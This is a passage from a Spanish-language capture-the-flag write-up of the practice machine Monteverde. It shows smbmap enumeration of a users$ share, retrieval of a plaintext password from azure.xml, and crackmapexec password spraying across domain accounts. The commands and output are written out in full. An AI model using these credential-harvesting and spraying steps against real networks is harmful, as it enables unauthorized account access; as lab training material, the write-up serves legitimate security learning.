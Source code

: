 Si vamos a las ruta de `users$` encontramos dentro del directorio `mhope` un archivo `azure.xml`.

```bash
❯ smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' -r 'users$/mhope'
    IP: 10.10.10.172:445	Name: MEGABANK.LOCAL                                    
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	users$                                            	READ ONLY	
	users\$mhope
	dr--r--r--                0 Fri Jan  3 08:41:18 2020	.
	dr--r--r--                0 Fri Jan  3 08:41:18 2020	..
	fw--w--w--             1212 Fri Jan  3 09:59:24 2020	azure.xml
```

Nos descargamos el archivo y al leerlo vemos una nueva contraseña `4n0therD4y@n0th3r$`

```bash
❯ smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' --download 'users$/mhope/azure.xml'
[+] Starting download: users$\mhope\azure.xml (1212 bytes)
[+] File output to: /home/fmiracle/machines/Monteverde/content/10.10.10.172-users_mhope_azure.xml
❯ mv 10.10.10.172-users_mhope_azure.xml azure.xml
❯ /bin/cat azure.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>#
```

Ya que obtuvimos una nueva credencial, vamos a hacer lo mismo que antes con `Crackmapexec` pero esta vez con esta contraseña.

```bash
❯ crackmapexec smb 10.10.10.172 -u users.txt -p '4n0therD4y@n0th3r$' --continue-on-success
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-ata:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-bexec:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-netapp:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\roleary:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\smorgan:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE 
```
